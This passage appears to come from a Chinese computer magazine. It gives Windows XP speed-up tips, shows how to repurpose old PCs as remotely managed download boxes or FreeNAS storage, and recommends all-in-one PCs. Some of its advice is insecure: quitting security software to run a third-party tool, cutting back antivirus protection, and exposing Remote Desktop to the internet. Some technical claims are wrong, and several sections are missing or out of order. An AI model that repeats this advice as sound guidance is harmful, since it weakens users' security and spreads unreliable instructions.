打开“控制面板”，双击“电源选项”，在弹出的对话框中选择“休眠”选项卡，取消“启用休眠”复选框即可。
- 7. 卸载不常用组件
Windows XP默认安装的一些组件，如游戏等，可能根本用不到，可在“控制面板→添加或删除程序→添加/删除Windows组件”中将它们卸载。

### 技术扩展:

一些组件默认是隐藏的，在“添加/删除Windows组件”中看不到，可以到C:\Windows\inf\目录下找到sysoc.ini文件，用记事本打开，将其中所有“hide”字段删除，保存后重新打开“添加/删除Windows组件”即可看到。

Windows组件”中找不到它们，这时可以这样操作：用记事本打开“c:\windows\inf\sysoc.inf”这个文件，用查找/替换功能把文件中的“hide”字符全部替换为空，这样就把所有组件的隐藏属性都去掉了，存盘退出后，再打开“添加/删除Windows组件”中就会看见多出不少你原先看不见的选项，把其中那些你用不到的组件删掉即可，如Internet信使服务、传真服务、Windows Messenger等。

## 原因5:磁盘碎片太多

系统使用的时间久了，会产生很多磁盘碎片，定期整理这些碎片，可大大提高运行速度。

## 实战:快速整理磁盘碎片

虽然Windows自带磁盘整理程序，但是效率极差，且功能过于简单，所以借助第三方工具来完成此任务会更划算。这里我推荐使用Defraggler (下载地址: http://www.onlinedown.net/soft/35339.htm)。

在安装过程中，建议勾选“替换Windows磁盘整理工具”，可方便以后的调用。

在Defraggler主界面中，点击左上角的“操作→整理分区/整理目录/整理文件”，可直接选择某个磁盘、文件夹或文件即可进行碎片整理了，这可是系统工具所不具备的。

在主界面中点击“设置→计划”，根据需要设置具体时间，还可以在固定时间自动进行碎片整理，非常方便。

### 小提示:

不管采用Windows内置的磁盘碎片整理工具，还是用第三方整理工具，通常只能逐个分区去整理，能不能一次整理所有磁盘，中间不需要人为去干预呢？可通过编写批处理的方式来实现，为节约篇幅，代码已上传到网上，详见上帖。

## 原因6:系统加载的字体过多

系统启动时会预先载入已安装的所有字体，字体越多，对系统的启动速度影响也越大。尤其是中文字体，还非常占磁盘空间。所以删除一些不必要的字体，释放磁盘空间并减少系统载入时间，可为系统提速。

## 实战:安全删除字体优化系统

在Windows XP系统中，删除字体的操作很简单，只要打开系统字体文件夹 (C:\Windows\Fonts)，然后选中想删除的字体，按Delete键删除即可。当然，我们不能随便删除系统字体，否则会引发许多故障，删除字体时应注意下面几点:

- 1.根据字体的图标样式来辨别是否可删除。不能删除的图标样式或颜色有：红色图标的字体、绿色“TT”图标的字体以及包含“MS”字样或Microsoft打头的字体，这些是系统必需的字体，千万不要删除。
- 2.建议保留的常用字体。除了系统必需的字体外，日常使用中我们还有一些常用字体，比如常用的英文字符集合Arial、Impact、Palatino Linotype、Tahoma、Symbol等，而常用的中文字体则有宋体、仿宋体、楷体、黑体等四种。
- 3.很多办公软件会自带一些字体，比如AutoCAD、CorelDraw等制图工具软件，不建议删除类似的应用软件自带的字体。因此，清理字体的工作最好是在系统装好后还没有安装应用软件前进行，如果安装应用软件后再进行操作，一来字体数量众多，工程量大；二来难以辨别哪些是系统原有字体，哪些是应用软件自带的字体。
- 4.建议不要彻底删除字体，而是将它们从回收站中移动到其他分区的某一个文件夹中备份起来，以备不时之需。

## 更多系统优化提速小技巧

### 1.未分配IP

默认情况下Windows XP在启动时会对网卡等网络设备进行自检，如果发现网卡的IP地址等未配置好就会对其进行设置，从而导致系统变慢。

#### 解决方法:

打开“本地连接”，双击“常规”项中的“Internet协议”打开“TCP/IP属性”菜单，将网卡的IP地址配置为一个在公网（默认的网关是192.168.1.1）中尚未使用的数值如192.168.1.X（X取介于2~255之间的值，根据你的路由器来设置），子网掩码设置为255.255.255.0，默认网关和DNS可取默认设置，或添加你所在地区的DNS（如果是路由器拨号，可以在第一页看到）。

### 2.不需要的设备太多

Windows XP总是尽可能为电脑的所有设备安装驱动程序并进行管理，这不仅会减慢系统启动的速度，同时也造成了系统资源的大量占用。

#### 解决方法:

在设备管理器中，双击要停用的设备（比如PCMCIA卡、调制解调器、红外线设备、打印机端口LPT1或者串口COM1等），在其属性对话框中的“常规”选项卡中选择“不要使用这个设备(停用)”。重新启动设置即可生效，如果确实需要使用这些设备时，再从设备管理器中启用它们即可。

### 3.预读文件过多

Windows XP的预读设置虽然可以提高系统速度，但是使用一段时间后，预读文件夹里的文件数量会变得相当庞大，导致系统搜索花费的时间变长，而且有些应用程序会产生死链接文件，更加重了系统搜索的负担，所以，应该定期删除这些预读文件。

#### 解决方法:

Windows XP预读文件存放在“C:\windows\prefetch”文件夹中，将该文件夹下的所有文件删除即可。

### 4.杀毒软件保护过度

杀毒软件功能越来越丰富，带来保护的同时也使得系统耗费惊人。

#### 解决方法:

在兼顾效率和安全的情况下，可部分关闭保护功能。这里以金山毒霸2012为例，在软件的主界面中打开“实时保护”选项卡，在默认情况下杀毒软件会开启所有的实时保护功能，如果你只是上上网，那么建议只开启系统防御和边界防御中的“上网安全保护”即可。

经过上面一系列处理，老张的旧电脑跑起来飞快。那台旧电脑他决定不卖了，而是送给乡下的一个亲戚，让小孩子学习，足够用啦。

## 应用篇

### ——老电脑照样要“玩乐”

操作系统是电脑运行的基础，但是我们的目的不是玩系统，而是要通过它完成上网、聊天、玩游戏等各种实际任务。老电脑在完成这些任务时，如何提速?

## 任务1:配置IE优化上网

上网浏览的时候，许多不需要的信息也随之而来，如网页上的各种广告，侵占了不少的带宽，甚至有时候，我们只需要文字信息，网页中那些无用的图片及Flash动画等，也会降低网速。所以，我们不妨优化配置，按需定制，让上网更快速。

### IE也能去广告

虽然是老电脑，但还是用IE6的话很不方便，最新的IE9又比较占用资源，所以老电脑上建议使用IE7。IE7下，去除广告的插件有不少，比较有名的一款是IE7Pro (下载地址: http://www.ie7pro.com)。插件安装后IE右下角会显示一个“e”图标，点击弹出菜单，点选“Enable AD Blocker”项即可，以后再浏览时，网页上各种形式的广告就一扫而空了，非常简单。

### 小提示:

除了屏蔽网页广告，IE7Pro还具有超级拖拽、鼠标手势、代理切换等多种功能。

### 屏蔽网页上的无用元素

有时我们只需要浏览文字信息，通过屏蔽网页上图片等多媒体内容，可以提高浏览速度。点击“工具→Internet选项”，切换到“高级”选项卡，在“多媒体”一项中，取消其下“显示图片”、“在网页上播放动画”等项，就可以屏蔽网页上的图片、Flash动画、声音等元素了。

### 管理IE加载项

加载项是指随IE浏览器一起启动的第三方插件，插件太多，无疑会影响IE的运行速度，所以一些不必要的插件即可屏蔽它。

在“工具→管理加载项”中，每个加载项的后面显示了加载所需的时间，一般而言，加载时间在1秒内是正常的，如果达到几十秒甚至更长时间的话，那就应该禁用此插件了。如果由于禁用加载项而导致IE异常，只要根据提示重新启用相应插件即可。

### 修改IE下载连接数提速

为何使用IE下载时速度会慢，原因之一是IE限制了下载连接数。其实我们可以通过修改注册表来增大连接数，达到下载提速的效果。针对IE6/IE7的修改方法如下:

打开注册表编辑器，依次定位到“HKEY_CURRENT_USER \SOFTWARE\MICROSOFT\WINDOWS\CurrentVersion\Internet Settings”，新建两个DWORD值“MaxConnections Per1_0Server”和“MaxConnections PerServer”（如果有了就不用再建了），把两个的值设为10（最大为16）即可。

## 任务2:打造多核浏览器极速浏览

工欲善其事，必先利其器。老电脑上网要提速，建议放弃系统自带的IE，改用其他更好用的浏览器。这里推荐一下360极速浏览器 (下载地址: http://chrome.360.cn)，平时它使用的是Chrome内核浏览网页，速度极快，而当遇到淘宝、网银等需要IE内核的网站时，又会自动切换到兼容模式，非常方便。

如果你已经习惯了IE的操作确实不想换，也可以为IE添加Chrome内核，打造自己的多核浏览器，让兼容和速度兼得，只需从http://code.google.com/intl/zh-ON/chrome/chromeframe下载安装“Google Chrome浏览器内嵌框架”即可。以后，在需要IE内核的网站浏览时正常操作，而当需要使用Chrome内核以提升浏览速度时，在地址前加“CF:”即可调用Chrome内核浏览。例如：CF:http://www.cfan.com.cn。

显然用“CF:”前缀来调用Chrome内核不是很方便，如果你希望可以强制IE始终使用Chrome Frame浏览网页，则可以这样做：打开记事本，输入以下内容并将其另存为一个.reg文件，然后合并到注册表中即可。文件具体内容为:

```
Windows Registry Editor Version 5.00
[HKEY_CURRENT_USER\Software\Google\ChromeFrame\OptInUrls]
"*"=""
```

既享受了IE的兼容性，又有Chrome的速度，即使不是在老电脑上，同样也值得我们试一试。

## 任务3:如何让迅雷下载更快速

无论是下载的速度还是下载资源的丰富性，迅雷都是当仁不让，不过迅雷对资源的占用也是有目共睹的，所以老电脑上用迅雷对其进行优化势在必行。

### 优化迅雷7默认配置

迅雷默认的配置并不是最优的配置，下面以迅雷7.2为例，通过适当的优化让软件运行更加流畅，下载更快速。

#### 1.关闭智能换肤和外观特效

漂亮的界面会消耗更多的内存资源，配置低的电脑应该关闭这些无实际作用的功能。

点击迅雷主界面右上角衣服形状的按钮打开“皮肤主题”管理界面，在“系统主题”中第一项即为“智能换肤”，点选一个其他皮肤，然后取消“开启主界面透明效果”和“开启界面毛玻璃效果”两个选项，接着点击“更多设置”打开“外观设置”，将“其他设置”中的“特效等级”设置为“关闭”，单击右上角的“应用”确定即可。

#### 2.关闭“我的应用”

迅雷的主要任务是下载，其他的功能其实可有可无，所以建议关闭它的“我的应用”。在迅雷的主界面上按Alt+O键打开“配置中心”，切换到“我的下载→常用设置”页面，取消“显示左侧‘我的应用’”选项，点击“应用”确定即可。

#### 3.清除不常用的工具栏

迅雷界面上提供了很多控制按钮，但下载控制只需要新建、开始、暂停、删除和打开等几个，其他按钮都可以取消掉。点击工具栏上的“>>”按钮，选择打开“自定义工具栏”，然后取消列表中的所有自定义的按钮，“确定”即可。

#### 4.取消迅雷资讯弹窗

资讯弹窗大大影响了迅雷的启动速度，我们可以按Alt+O键打开“配置中心”，切换到“基本设置”的“消息提示”设置项，取消右侧窗口中的“显示迅雷资讯”，单击“应用”即可。

### 迅雷深度优化技巧

#### 1.自动关闭迅雷导航

在任务列表下方，迅雷集成了一个应用导航条，默认情况下是自动开启的，单击迅雷“菜单→工具”取消“开启迅雷导航”可以将其关闭。不过重启迅雷这个导航条依旧会开启，想一劳永逸地关闭该导航条，可以这样做：打开迅雷的安装目录，比如E:\Program Files\Thunder Network\Thunder，在“Profiles\ThunderNavigator”目录中找到“ThunderNavigator.ini”文件，用记事本打开它，并将“Enable=true”改为“Enable=false”，保存文件后将该文件的属性改为只读即可。

### 小提示:

优化迅雷建议先申请并登录一个迅雷账户，否则可能有些优化设置无法保存。

## 任务4: 优化QQ聊得更舒心

现在的QQ越做越庞大，集成了大量的应用和付费服务，对于电脑配置低的用户而言，对QQ进行适当优化是非常必要的。

### 邱邱小助手精简QQ

优化QQ可试试网友开发的邱邱小助手 (下载地址: http://www.onlinedown.net/soft/117543.htm)，它使用简单，支持最新的QQ2011。

### 小提示:

如果你的电脑上安装有安全软件，必须完全退出这些安全软件才能使用邱邱小助手，否则软件某些功能将无法正常使用。第三方软件的安全无法精确检测，在安全风险和效率之间，有时需要做出选择。

Windows 7系统下如果当前用户不是Administrator高级用户，请右击此软件选“以管理员身份运行”此软件使用。

## 任务5: 常用软件的替代方案

老配置电脑运行Office、Photoshop等大型软件时会很吃力，其实我们可以用一些功能相同但更小巧玲珑的软件来替代，下面就一些常用软件给大家提供一个替代方案。

### 1. 办公应用

#### 微软Office VS WPS Office

推荐理由: WPS是由金山公司推出的国产Office办公套装软件，与微软的Office深度兼容，体积非常小巧(仅42MB左右)，却提供了Office套装中的Word、PowerPoint、Excel等软件相同的编辑功能，并且是完全免费的。

### 2. 图像处理

#### Photoshop VS 光影魔术手

推荐理由: Photoshop是最受欢迎的图像处理软件，功能强大，但是也最耗费系统资源，这对于老配置的电脑来说是一种负担。实际上，如果不是非常专业的制图工作，只是简单的对图片进行编辑(比如裁切、抠图、简单色的渲染等)，那么完全可以用光影魔术手(nEO iMAGING)来替代它。光影魔术手简单、易用，没有任何基础的新手都能制作精美相框、艺术照、专业胶片效果。

### 3. 影音播放

#### 微软媒体播放器 VS MPlayer

推荐理由: 微软媒体播放器虽然是系统自带，但是也相当消耗资源(这也是多数流行播放器的毛病)，并且支持的影音格式有限。而MPlayer，则是一款从Linux系统移植到Windows的一款小巧而全能的播放软件，几乎可以播放所有当前流行的所有视频格式，对系统硬件要求非常低，另外它还支持边下边看。

下载地址: http://www.mplayer.org.cn/download.html

### 4. 电子阅读

#### Adobe Reader VS Foxit Reader

推荐理由: Adobe Reader虽然是目前最专业的PDF阅读软件，不过它的体积比较庞大，完全安装需要超过100MB的磁盘空间。而Foxit Reader就小巧多了，运行速度也非常不错，对中文PDF的支持也非常好。

下载地址: http://www.skycn.com/soft/20490.html

## 扩展篇

### ——化整为零老电脑物尽其用

如果电脑老得实在不能用了，或者配件不齐(比如没有显示器)，还可以将它当成下载机、文件存储器等来使用。

## 任务1: 老电脑变身下载专用机

文件下载是网络生活的重要组成部分，但是整天开着电脑下载，不但费电，也明显缩短电脑硬件的使用寿命，所以不少下载狂人花钱购买专业的下载机来分担PC的负担。其实，如果家里有一台废弃不用的老电脑，不妨将它改造成下载专用机。

### 卸载无用功能老电脑轻身上阵

由于电脑只用来下载，我们要在保障系统稳定运行的基础上，尽可能精简其功能，达到省电的目的。另外，下载机的操作系统只需保留基本的网络服务、网页浏览和远程桌面功能即可。远程桌面将是我们用来管理下载机的入口。

### 第1步: 卸载掉不需要的硬件

一般情况下，电脑运行所需要的基本硬件只有:主板、CPU、内存、硬盘、显卡、网卡和电源，让电脑省电则可以遵循以下的原则去进行配置:

- 1. 如果主板已经集成了显卡，那么独立显卡则可拆下来。
- 2. 如果你有多条内存，建议只保留一条内存，因为下载机只需要运行精简版Windows XP系统即可，需要的内存是很少的。
- 3. 只要不是太老的主板，大多都集成了网卡和声卡，建议采用集成网卡，并在系统中禁用声卡。
- 4. 鼠标、键盘、显示器以及其他PCI配件等硬件都可以在将下载机的系统配置完成并稳定运行后，从电脑上拆卸下来。
- 5. 如果是笔记本电脑，显示器是不能拆的，不过可以在系统中设置一个自动关闭时间。

在卸载系统不需要的功能前，建议在运行对话框中输入执行devmgmt.msc命令打开系统的硬件管理器，然后将不需要的硬件或硬件控制器停止，比如“打印和通讯端口”、“软盘驱动器控制器”以及“声音、视频和游戏控制器”等。

下载机系统而言，只需要保留网络功能、IE浏览器和远程桌面功能即可。设置完成后，点击“应用”，卸载程序进行完毕，按照提示，重新启动计算机即可。

### 小提示:

XPLite的详细设置可参考http://qingyaju.blog.hexun.com/45254374_d.html，在此不再赘述。

### 第3步: 优化系统的电源管理

用XPLite软件对系统精简后，建议再对系统进行适当的优化，详情可以参考本专题的系统优化部分。在这里，我们需要注意的是，由于下载机是需要长时间运行的，而系统默认的电源管理可能对此有一定的影响，需要适当的调整。打开系统“控制面板”中的“电源选项”，在“电源使用方案”选项页中将“关闭硬盘”的时间设置为“从不”。

如果你的下载机是笔记本电脑，建议将“关闭显示器”设置为5分钟或10分钟后自动关闭，并且建议在“高级”选项页中将电源按钮中的“合上便携式计算机时”设置为“不再进行任何措施”，这样让作为下载机用的笔记本电脑可以在屏幕合起来之后不关机。不过需要注意的是，笔记本电脑当下载机必须用外接电源，否则电池撑不了多久。

### 第4步: 远程操控“下载机”

为了让下载机尽可能地省电，要关闭很多系统不需要的功能，甚至不需要输入设备(键盘鼠标等)输出设备(显示器等)。但是如何访问下载机，以设置各种下载任务以及从中提取下载完成的文件呢?远程桌面登录到下载机后进行远程操控则是一个非常好的选择。

#### 1. 打开下载机的远程桌面

在下载机电脑上打开“我的电脑”属性，切换到“远程”选项卡，勾选“允许用户远程连接到此计算机”，单击“确定”，这样你就可以在其他电脑上用“Administrator”账户远程登录下载机了。当然，你也可以单击“远程”选项中的“添加远程用户”按键，然后添加别的管理账户。

#### 2. 给下载机分配一个固定IP

假设你家里安装了ADSL宽带，并通过路由器拨号及共享宽带。由于ADSL宽带都是以IP租用的方式分配IP的，内部局域网各个电脑的IP可能不一定是固定的。为了便于远程访问下载机，要给其设置一个固定的IP。在下载机系统中打开“网上邻居”的属性，找到连接到路由器的网络连接并打开其属性，双击打开“Internet协议(TCP/IP)”属性，然后将IP获取地址方式设置为手工输入，并将IP设置为路由器开放的号段，比如192.168.1.101。

## 实战: 在公司管理家里的下载机

经过刚才的配置，在内网中已经可以用远程桌面登录下载机并进行管理了。如果你希望在公司也可以对家里的下载机进行管理，那么需要对家里的路由器进行适当的配置。不同的路由器可能内置不同的动态DNS服务提供商，TP-Link内置的是花生壳，而其他品牌的路由器可能是别的服务商，一般情况下基础的动态服务是免费的。下面以TP-Link路由器为例，开放下载机的外网访问权限的设置步骤如下:

### 第1步: 申请并激活DDNS账户

到https://console.oray.com/passport/register.html免费注册一个花生壳动态DNS账户，注册完成后到http://www.oray.com首页登录该账户，并进入该账户的管理后台，在“域名管理”的“免费域名”中就可以获得一个免费域名(比如账户名为test，那么对应的免费域名即为test.gicp.net)，选中该域名并单击“激活花生壳”。

### 第2步: 登录并开启路由器的动态DNS功能

登录到路由器管理界面，切换到“动态DNS”页面(常见TP-Link路由器一般都内置了该服务)，输入刚才申请的账户和密码，勾选“启动DDNS”后单击“登录”。登录成功之后，就可将看到“域名信息”将对应刚才申请得到的免费域名，而这个域名将是在外网远程管理内网的入口了。

### 第3步: 开放下载机的远程桌面端口网IP，单击“保存”。

## 第4步：远程登录并管理下载机

完成上述设置后，就可以在任意一台可以连接到网络的电脑中远程登录并管理你的下载机了。比如你公司的电脑安装了Windows 7，那么在系统中依次单击“开始→所有程序→附件→远程桌面连接”，然后在登录框中输入你的花生壳动态域名（比如test.gico.net）即可远程管理家里的下载机了。

## 任务2：老电脑变身网络存储服务器

家里有多台电脑之后就有可能出现资源浪费现象，比如同样一部电影，同样一些资料，在每一台电脑上都存储一遍，太浪费硬盘空间了。其实可以将大家共用的数据放到一台电脑中，然后再通过网络共享使用，即可大大节约资源。这时候，老电脑就又派上用场了。

## 实战：在FreeNAS中快速共享文件

本刊以前介绍过免费的网络服务器系统FreeNAS，在作为存储服务器使用的电脑上安装此系统后，其他人即可方便地访问这台电脑上的共用资源。

文件共享是FreeNAS系统最基础的一项应用，它的共享平台非常全面，除了可以向Windows共享文件外，还可以向MAC、Linux或UNIX等系统共享文件。以最常用的Windows共享为例，设置如下：

- 第1步：依次点击“服务→CIFS”，在弹出的CIFS设置窗口中即可设置Windows系统的共享规则了。比如我们向FreeNAS挂载了一个1TB的硬盘，那么勾选“启用主目录”选项并将“主目录”的路径设置为挂载的硬盘，其他共享规则可以看文字说明进行设置。
- 第2步：设置好CIFS的共享规则后，点击“服务→控制服务”，然后将右侧窗口中的“CIFS”服务设置为“ON”状态（即打开状态），这样局域网中其他的电脑无需安装任何软件，只需要用“\\FreeNAS服务器IP”的方式即可访问该磁盘上的共享资源了。

通过以上方法，就可以让老电脑“废物利用”“老树开新花”了。其实老电脑的应用还有很多，比如打造影视点播机、打造客厅KTV电脑等。如果老电脑实在不可用了，还可将有用的配件拆下来，重新再利用。比如：老电脑中的显示器与新笔记本组成双屏显示器，老硬盘改装成移动硬盘，等等。这方面大家如果有什么心得，希望能一起共享哦。

策划/《电脑爱好者》编辑部
监制/柳絮飞
撰稿/金戈铁马

## 应用更灵活 工作更高效 ——为自己挑选一台一体式电脑

台式机笨重、线缆杂乱，多少年一直被大家抱怨；笔记本虽然小巧，但屏幕也太小，而且性能太弱；顺势而生的一体式电脑（简称一体机）就成为了两者之间的平衡点。一体机已经不是新名词了，现在它进化到什么样的状态，适合哪些环境使用？这就是本次专题要讨论的。

经过多年的发展，特别是到了LCD普及之后，一体机的概念早已为大家所熟知。简而言之，一体机就是将电脑的主机和显示器集成到了一起，不光取消了庞大的主机，还省去了供电和视频连接线。如果再配合无线键盘和鼠标，整台电脑就只有一条电源线了。这样的电脑相比传统台式机既省空间又要整洁得多，对现在这个房价高昂同时人们又追求生活品位的时代来说尤其适合。

不光家居使用，办公室、银行、教室等几乎所有台式机的传统地盘都可以用一体机代替。特别是几十、上百台电脑一起工作的环境，一体机由于结构简单，故障率也会更低，更有利于技术支持人员进行维护。

## 一体机的硬件特点

能将庞大笨重的主机和显示器浓缩到一起，显然一体机的硬件需要特别设计和挑选才行。

首先，为了保证体积和散热，一体机都不会使用直立式的台式机独立显卡，要么集成显卡，要么是配备笔记本版本的独立显卡。这样必然在游戏性能上很难让高端玩家满意，不过想想品牌台式机，大多数也只配了入门显卡的；即便有Alienware之类的游戏电脑，但那价格实在太贵了。如果想玩大型3D游戏，还是自己DIY吧。

主板方面，一体机多数都不会使用台式机那种标准ATX规格主板，上面一般不会有PCI Express之类的扩展槽，所以扩展性不如台式机。有时会提供mini PCI插槽，可以安装无线网卡。

而在CPU方面，一体机更是五花八门。低端的一体机常常会选用Intel ATOM或者AMD E系列APU这类低功耗的笔记本CPU，既便宜发热量又小，但只适合初级的网页浏览和办公之类用途。更高档一些的一体机中，有一些为了保证较低的发热量，会使用主流笔记本CPU（因为笔记本CPU发热量和功耗都较低），而设计能力较强的厂商也会使用普通台式机CPU，通过强有力的散热系统保证系统的稳定，性能也会很强。

同样的，一体机中特别强调轻薄外观的机型会采用笔记本规格的2.5英寸硬盘和内存，但如果某款一体机的硬盘容量超过了1TB以上，必定是用的台式机的3.5英寸大硬盘。笔记本硬盘小巧、省电，但容量小、价格贵，台式机硬盘正好相反，如果你打算今后升级硬盘容量，那就要在买之前弄清楚到底使用的是什么规格的硬盘。

一体机的扬声器也是个需要考虑的问题，不单是它的音效，还需要了解安装的位置。一些一体机会标榜自己使用了大功率的扬声器，但如果扬声器与硬盘离得太近的话就会产生麻烦。因为有确切证据显示硬盘性能在附近有扬声器的情况下会明显降低。

## 一体机的CPU更加重要

从现有的一体机来看，显卡的档次最多是中等性能，不能和台式机相比，所以一体机的性能会更加倚重CPU。如果你的预算足够，建议尽量选择使用主流CPU的机型，虽然市面上有一些价格很便宜，但使用Atom或E系列APU的一体机，但并不推荐，除非是给儿童使用。

前面说过，台式机CPU的发热普遍比笔记本的大一些，而一体机由于机身狭小散热能力不如台式机，所以更应该首选发热量小的CPU。根据经验，Intel今年推出的Sandy Bridge系列（如Intel的酷睿i3、i5等）台式机CPU工作时的温度也只有三四十摄氏度，十分适合在一体机中使用。

## 根据使用场景挑选一体式电脑

实际上一体机适用的范围是非常广泛的，下面我们就根据一些典型的使用环境为大家推荐适合的一体机电脑。

### 客厅家用电脑

客厅兼有一家人平时娱乐和会客的作用，所以客厅电脑除了普通的电脑功能还是一件美观的家具，拥有能体现出主人审美品位的外观。

这类电脑往往会用于家庭的影音娱乐，播放高清大片，或者玩一些休闲类的游戏，有时一家人还会聚在一起看看照片，有客人来了还可以通过触摸屏演示一些介绍文档。这样的功能要求电脑有较快的反应速度，价格预算也会很充裕，所以可以尽量选择一线品牌为家用所设计的高端机型。

### 推荐产品：惠普TouchSmart 610

采用23英寸全高清IPS屏幕的TouchSmart 610在面子上就不会让主人失望，IPS屏优秀的显示素质和宽广的可视角度非常适合多人一起使用，多点触摸屏的特性方便操作，也适合不太懂电脑的老人和小孩使用。这些是作为优秀客厅电脑的基础。

硬件配置上TouchSmart 610也采用了较高端的方案，它配备主频3.4GHz的i7-2600四核台式机处理器和6GB内存，在一体机中算是顶级了，对付影音为主的家庭应用完全绰绰有余。同时它还加入了现在很流行的Beats Audio音效技术，可以让整个客厅都能享受高素质的音效。

GeForce GT425M独立显卡虽然不算顶级，不过也是一体机中的主流，用于流行的赛车或体育类游戏基本够用，实际游戏性能肯定比集成显卡要强很多倍。加上可以播放蓝光高清影片的内置蓝光光驱，这台电脑能带给主人非常满意的视觉效果。

| 项目 | 参数 |
| --- | --- |
| CPU | 四核Intel Core i7-2600, 3.4GHz |
| 内存 | 6GB DDR3-1333 |
| 显卡 | NVIDIA GeForce GT 425M, 1GB显存 |
| 显示器 | 23.1英寸IPS屏, 16:9, 1920×1080, 触控 |
| 硬盘 | 2TB, 7200转/分 |
| 光驱 | 蓝光光驱 |
| 网络连接 | 802.11 bgn无线, 千兆有线, 蓝牙 |
| 外形尺寸 | 585mm×451mm×103mm |
| 重量 | 11.2kg |

### 索尼VAIO L23

VAIO L23同样也是一款配置十分高档的家用一体机。从外观上看，它的机身线条简洁，外形十分紧凑，搭配电视机上常见的脚型支架，更像是一台时尚的家电，非常适合摆放在客厅中使用。

配备了24英寸1080p全高清屏的VAIO L23由于索尼传统的强项，屏幕显示十分吸引人，色彩通透而艳丽，可以算是电脑显示器中的佼佼者了。而同时它还具备3D显示能力，只需带上附送的快门式3D眼镜就可以马上享受3D大片和游戏，而不需要各种复杂的连线。不过快门式3D眼镜比较贵，如果想多人同时欣赏就得花不少钱了。

作为高端电脑VAIO L23配备了i7-2670QM四核处理器，值得注意的是这是一颗移动型处理器，功耗低比台式机的要低很多（当然价格也要高不少）。

| 项目 | 参数 |
| --- | --- |
| CPU | 四核Intel Core i7-2670QM, 2.2GHz |
| 内存 | 8GB DDR3-1333 |
| 显卡 | NVIDIA GeForce GT 540M, 1GB显存 |
| 显示器 | 24英寸, 16:9, 1920×1080, 3D显示, 触控 |
| 硬盘 | 1TB, 7200转/分 |
| 光驱 | 蓝光光驱, DVD刻录 |
| 网络连接 | 802.11 bgn无线, 千兆有线, 蓝牙3.0+HS |
| 外形尺寸 | 608mm×429mm×168mm |
| 重量 | 12kg |

| 项目 | 参数 |
| --- | --- |
| CPU | 双核Intel i3-2120, 3.3GHz |
| 内存 | 2GB DDR3 |
| 显卡 | 集成Intel核芯显卡 |
| 显示器 | 20英寸宽屏 |
| 硬盘 | 500GB, 7200转/分 |
| 光驱 | DVD刻录机 |
| 网络连接 | WiFi无线, 千兆有线 |
| 外形尺寸 | 513.8mm×409mm×71.5mm |
| 重量 | 暂缺 |

| 项目 | 参数 |
| --- | --- |
| CPU | 双核Intel 奔腾G620, 2.6GHz |
| 内存 | 2GB DDR3 |
| 显卡 | 集成Intel核芯显卡 |
| 显示器 | 20英寸宽屏, 1200×900 |
| 硬盘 | 500GB |
| 光驱 | DVD光驱 |
| 网络连接 | 802.11 bgn无线, 千兆有线 |
| 外形尺寸 | 378.46mm×525.78mm×66mm |
| 重量 | 暂缺 |

### 华硕ET2410

基于家居使用的精确定位，华硕这款ET2410也十分注重产品外观的设计，而且特别加强了玻璃和铝材的使用，既美观又符合绿色环保的大趋势。仅仅和普通显示器大小差不多的精巧机身十分吸引眼球，这款一体机还能拆下脚架挂到墙上，就像电视一样使用，将一体机节省空间的特点发挥到了极致。值得一提的是，ET2410的屏幕不光使用了VA广视角液晶面板，还具备10点触摸能力，可以在屏幕上非常爽快地玩《水果忍者》，给老人和小孩使用也会很方便。

| 项目 | 参数 |
| --- | --- |
| CPU | 双核Intel i3-2120, 3.3GHz |
| 内存 | 4GB DDR3-1333 |
| 显卡 | NVIDIA GeForce GT 540M, 1GB显存 |
| 显示器 | 23.6英寸, 16:9, 1920×1080, 十点触控 |
| 硬盘 | 1TB, 7200转/分 |
| 光驱 | DVD刻录, 可选蓝光光驱 |
| 网络连接 | 千兆有线 |
| 外形尺寸 | 461mm×590mm×60mm |
| 重量 | 15kg |

### 商务办公/教学

传统办公室使用的都是机箱+显示器的台式机，而且都是成批量购买，硬件情况都差不多，以方便技术支持人员进行维护。基于这个考虑的话，一体机比台式机更适合办公室使用，因为它的连接线少，集成度高，很少会发生连线松动这些低级故障。当然选购时最好还是要挑选专门的商用机型，因为这类产品厂商提供的保修时间更长，服务也会更好。由于用途的相似性，很多办公电脑也适合学校的机房使用，它们都不需要很强的游戏性能，但是由于大规模使用，对产品稳定性和可维护性都有很高的要求。

### 推荐产品：联想扬天S510

配备i3-2120处理器的联想扬天S510官方报价为5599元，提供3年保修和3年上门服务，对公司用户来说非常重要。商务简练的外观，和公司的氛围也十分符合。它的机身内集成了光驱、音箱和麦克风，不用再添置音箱之类的设备，也为公司节省了不少成本。

### 戴尔Vostro成就360

戴尔商务系列中的高性价比产品，提供3年的上门服务，为公司用户解决了技术支持的难题。搭配奔腾G630处理器的Vostro 360价格为4499元，该处理器主频高达2.7GHz，用于文档办公可以说是绰绰有余。不过这个价格不包含正版Windows 7，选购时需要留意，由于戴尔的电脑是可以自己搭配组件的，所以建议还是选上正版Windows 7吧。

| 项目 | 参数 |
| --- | --- |
| CPU | 双核Intel 奔腾G630, 2.7GHz |
| 内存 | 2GB DDR3-1333 |
| 显卡 | 集成Intel核芯显卡 |
| 显示器 | 23英寸宽屏, 1920×1080, WLED背光 |
| 硬盘 | 500GB, 7200转/分 |
| 光驱 | DVD刻录机 |
| 网络连接 | 802.11gn无线, 千兆有线 |
| 外形尺寸 | 568mm×430mm×75.5mm |
| 重量 | 8.65kg |

### 推荐产品：宏碁E21800

E21800可以说是市面上最便宜的配备主流CPU的一体机了，因为更低端的Atom或者E系列APU处理器在性能上很难满足网店的需要。虽然普通聊天对硬件需求不高，但是顾客流量大的网店客服经常需要同时打开满屏的聊天窗口，不光要开淘宝旺旺，还得开QQ。面对这些，低端的CPU就有些吃力了。而奔腾G620基于Intel全新的Sandy Bridge架构，2.6GHz主频和双核的参数可以轻松搞定网店的所有需求。同时建议花几十块钱将E21800的内存升级到4GB，因为商品的介绍页面图片很多，如果同时打开很多页面，估计2GB内存就有些不够用了。

| 项目 | 参数 |
| --- | --- |
| CPU | 双核Intel 奔腾G620, 2.6GHz |
| 内存 | 2GB DDR3 |
| 显卡 | 集成Intel核芯显卡 |
| 显示器 | 20英寸宽屏, 1200×900 |
| 硬盘 | 500GB |
| 光驱 | DVD光驱 |
| 网络连接 | 802.11 bgn无线, 千兆有线 |
| 外形尺寸 | 378.46mm×525.78mm×66mm |
| 重量 | 暂缺 |

### 儿童教学

